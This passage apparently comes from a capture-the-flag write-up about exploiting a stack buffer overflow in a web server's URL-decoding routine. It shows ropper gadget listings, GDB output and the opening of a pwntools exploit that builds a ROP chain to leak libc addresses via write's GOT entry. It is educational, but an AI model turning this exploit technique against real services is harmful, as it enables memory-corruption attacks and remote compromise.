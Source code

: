 ```sh
0x00000000004026ba: add byte ptr [rax], al; sub al, 2; add byte ptr [rax], al; sal dl, 0xff; jmp qword ptr [rdx];
0x00000000004026bb: add byte ptr [rdx + rax], ch; add byte ptr [rax], al; sal dl, 0xff; jmp qword ptr [rdx];
0x00000000004024db: call qword ptr [rdx];
0x00000000004026c3: jmp qword ptr [rdx];
0x0000000000402543: jmp rdx;
0x0000000000401780: mov byte ptr [rdx], 0; add rsp, 0x10; pop rbx; pop rbp; pop r12; ret;
0x0000000000401302: push rdx; mov word ptr [rdi + 4], ax; ret;
0x00000000004026c0: sal dl, 0xff; jmp qword ptr [rdx];
0x00000000004026bc: sub al, 2; add byte ptr [rax], al; sal dl, 0xff; jmp qword ptr [rdx];
0x00000000004026b8: xor al, 0; add byte ptr [rax], al; sub al, 2; add byte ptr [rax], al; sal dl, 0xff; jmp qword ptr [rdx];
```

But, fortunately, if we run the program in GDB with a breakpoint at the return of `url_decode` (0x0x40178b), we see that `rdx` is a non-zero value:
```
 RDX  0x7fffffffe5de ◂— 0x400fa02700
```

The box wasn't very responsive when building this exploit, therefore we keep retrying, with a short timeout set, until we receive a response. Some resources used are referenced below<sup>3, 4, 5</sup>.

```python
#!/bin/python

from pwn import connect, cyclic_find, p64, u64, urlencode
from pwn import context, log


class Exploit:
	def __init__(self, ip, port, timeout=0.5):
		self.ip = ip
		self.port = port
		self.timeout = timeout

		# hardcoded values
		self.file_not_found = 'File not found'
		self.command = 'GET'

		# PIE disabled
		# since PIE is disabled, we can use the exact addresses from ropper
		self.pop_rdi = 0x4011dd  # 0x4011dd: pop rdi; ret;
		self.pop_rsi_pop_r15 = 0x4011db  # 0x4011db: pop rsi; pop r15; ret;

		self.write_plt = 0x400c50
		self.write_got = 0x603038

		# manually found
		self.offset = cyclic_find('vaaaaaac', n=8)

	def __leak(self, fun_got):
		# only encode url-unsafe characters to make sure that we still overflow
		# the buffer. An encoded character takes 3 spaces in the url buffer, but
		# only 1 space in the filename buffer.
		nop_sled = b'\x90' * self.offset

		payload = ''
		payload += nop_sled

		# rop chain
		payload += urlencode(p64(self.pop_rsi_pop_r15))
		payload += urlencode(p64(fun_got))         # address of libc function we want to leak
```